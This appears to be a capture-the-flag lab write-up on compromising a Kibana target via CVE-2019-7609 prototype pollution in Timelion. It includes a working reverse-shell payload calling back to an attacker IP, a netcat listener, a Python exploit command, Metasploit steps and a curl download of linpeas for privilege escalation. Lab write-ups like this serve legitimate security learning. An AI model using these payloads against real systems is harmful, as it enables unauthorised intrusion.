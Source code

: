 Before you begin, always add your ip address to hosts file so as to avoid burden especially ip address related operations, while you are actively pentesting.

How to apply ?

![[Screen Shot 2024-10-04 at 13.58.40.png]]

## Reconnaissance
 nmap payload:
└─# sudo nmap -sV -sC -p- kiba.thm

Unusual port number:

![[Screen Shot 2024-10-04 at 09.09.24.png]]

![[Screen Shot 2024-10-04 at 09.45.27.png]]

What is Kibana ?
![[Screen Shot 2024-10-04 at 09.10.54.png]]

Suspicious path:
http://kiba.thm:5601/app/timelion#



## Exploitation

Useful resources about vulnerability:
-  https://github.com/LandGrey/CVE-2019-7609
- https://github.com/mpgn/CVE-2019-7609

For the exploitation phase we have two ways to compromise the target.
- Manual payload execution on 
### Manual Exploitation - 1

After a couple of research process, I discovered the vulnerability itself which is **Prototype Pollusion** on **Timelion** feature of the **Kibana** - ElasticSearch supported and opensource data visualization platform.

![[Screen Shot 2024-10-04 at 14.06.13.png]]


Initial compromise:
- Used Payload:

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/10.11.69.113/1337 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

- Netcat listener:
```
nc -lvnp 1337
```


Reverse Shell PoC:
![[Screen Shot 2024-10-04 at 09.16.33.png]]



### Manual Exploitation - 2

Although I have taken reverse shell connection properly, trying a python script where I discovered the vulnerability that trigger RCE automatically.

```
# python2 CVE-2019-7609-kibana-rce.py -h

usage: CVE-2019-7609-kibana-rce.py [-h] [-u URL] [-host REMOTE_HOST]
                                   [-port REMOTE_PORT] [--shell]

optional arguments:
  -h, --help         show this help message and exit
  -u URL             such as: http://127.0.0.1:5601
  -host REMOTE_HOST  reverse shell remote host: such as: 1.1.1.1
  -port REMOTE_PORT  reverse shell remote port: such as: 8888
  --shell            reverse shell after verify

```

I will execute a payload below:

```
python2 CVE-2019-7609-kibana-rce.py -u http://10.10.163.241:5601 -host 10.11.69.113 -port 1234 --shell
```

However, it did not call back on my machine. After on my first shot, I got break-time and turn on hybrid mode on my system. Therefore, I am going to refresh the machine.

![[Screen Shot 2024-10-04 at 09.59.31.png]]![[Screen Shot 2024-10-04 at 10.00.59.png]]



Now it works ! After I restarted the machine, I was able to get my reverse shell !

![[Screen Shot 2024-10-04 at 11.11.31.png]]


### Automated Exploitation

Metasploit Framework offers only three modules for **Kibana** platform. However, first approach was suitable for me. You can reach out the related module in below.

![[Screen Shot 2024-10-04 at 14.15.29.png]]

To interact with correlated module:

```
use 0
```

Now you are ready to configure module specific settings.

In order to show options required by the module, use the below command:

```
show options
```

![[Screen Shot 2024-10-04 at 14.16.39.png]]

Modifying the *RHOSTS*, *TARGETURI* and *RPORT* is enough to execute our exploit.

To add necessary information to script settings:

```
set [needed attribute]

Example: set RHOSTS or set RPORT
```

For this scenario, do not forget to modify *RHOSTS*, *LHOST* and *LPORT*.

![[Screen Shot 2024-10-04 at 14.26.39.png]]

Since I forgot to give *LHOST* and *LPORT* option, I was not able to run the script appropriately.



I have tried to run linpeas on tmp folder which allows users to run many scripts here ,but in this scenario it does not work. Therefore, I uploaded my files through /home/kiba

1. Deploy python server from local
```
python -m http.server 3131
```

2. Download linpeas from victim machine
```
curl http://10.11.69.113:3131/linpeas.sh -o linpeas.sh
```

3. Give executable permission to linpeas.sh
```
chmod +x linpeas.sh
```

4. Examine carefully  the linpeas output
- I found really useful evidence to escalate our privileges

![[Screen Shot 2024-10-04 at 11.46.43 1.png]]



